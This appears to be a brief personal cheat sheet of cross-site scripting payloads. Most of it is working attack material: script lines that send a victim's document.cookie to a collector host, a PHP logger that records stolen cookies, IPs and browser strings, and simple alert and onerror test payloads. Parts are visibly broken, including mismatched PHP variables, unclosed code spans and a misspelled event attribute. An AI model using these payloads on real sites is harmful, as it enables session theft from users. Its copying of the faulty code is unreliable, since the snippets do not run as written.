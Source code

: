 # XSS
## Stored XSS

## DOM XSS

## Blind XSS

## Reflicted XSS
### Take the Cookie:  `<script>alert(document.cookie)</script>`

### Take the Cookie Silence: `<script> var o = new Image(); o.src="http://127.0.0.1/?cookie="+document.cookie </script> 

```php
<?php

$cookie = $_GET['cookie'];

$ip = $_SERVER['REMOTE_ADDR'];
$browser = $_Server['HTTP_USER_AGENT'];

$ftp = fopen('log.txt','a');

fwrite($fp,'ip: '.$ip."\n".'cookie: '.$cookie."\n".'browser: '.$browser."\n-----------------------------------------\n");

fclose($fp);
?>

```
### Take the Cookie and save it in log.txt: `<script> var o = new Image(); o.src="http://127.0.0.1/get.php?cookie="+document.cookie </script> 

## Self XSS

>[!tip]
># Some test
>JS : `<script>alert("XSS")</script>`
>HTML : `<body onload=alert("XSS")>`
>IMG : `<img src='x' onerror=alert(1);>`
>AUDIO :  `<audio src=a pnerror=alert(XSS)>`

# Sql
